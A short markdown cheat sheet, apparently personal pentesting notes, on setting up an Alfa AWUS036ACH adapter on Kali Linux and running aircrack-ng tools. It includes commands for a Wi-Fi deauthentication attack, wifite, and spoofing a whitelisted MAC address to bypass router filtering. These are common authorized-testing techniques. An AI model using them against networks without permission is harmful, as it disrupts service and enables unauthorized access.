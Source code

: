 # WIFI Alfa AWUS036ACH
#Kali #Linux 

## Install driver
1. Connect the Wireless device to the Kali linux host.
2. Update package lists
```bash
sudo apt update
```
3. Install driver
```bash
sudo apt install realtek-rtl88xxau-dkms
```
4. Reboot the host

## Set the wireless adapter in Monitor Mode
```bash
sudo airmon-ng check kill
```

```bash
sudo airmon-ng start wlan0
```


## Check if it works
```bash
iw dev
```

```bash
ifconfig
```

```bash
iwconfig
```

## Set wireless adapter back in managed mode
```bash
sudo airmon-ng stop wlanmon
```

```bash
sudo systemctl start wpa_supplicant
```

```bash
sudo systemctl start NetworkManager
```

## Scan

```bash
sudo airodump-ng wlan0mon 
```
By default it will scan only in 2.4Ghz

```bash
airodump-ng wlan0mon --manufacturer
```
Gives you a bit more information

```bash
airodump-ng wlan0mon --manufacturer --band abg
```
Scan in different bands

## Attacks

### reconnaissance
```bash
sudo airodump-ng --bssid <bssid> --channel <CH-number> wlan0mon
```

### De-auth attack
```bash
sudo aireplay-ng -0 30 -a <client-mac-address> wlan0mon
```

### Wifite
```bash
sudo wifite
```

### Bypass router mac-address whitelist
1. Run the following command:
```bash
sudo airodump-ng --bssid <bssid> --band bg wlan0mon
```

2. Wait for a client to connect. When a client connects, its mac address appears. Grab the client's mac address. You will manually change your adapter's mac address with this mac address as follows:
```bash
sudo airmon-ng stop wlanmon

sudo systemctl start wpa_supplicant

sudo systemctl stop NetworkManager

sudo ip link set dev wlan0 down

sudo ip link set dev wlan0 address <whitelisted-mac-address>

sudo ip link set dev wlan0 up

sudo systemctl start NetworkManager
```
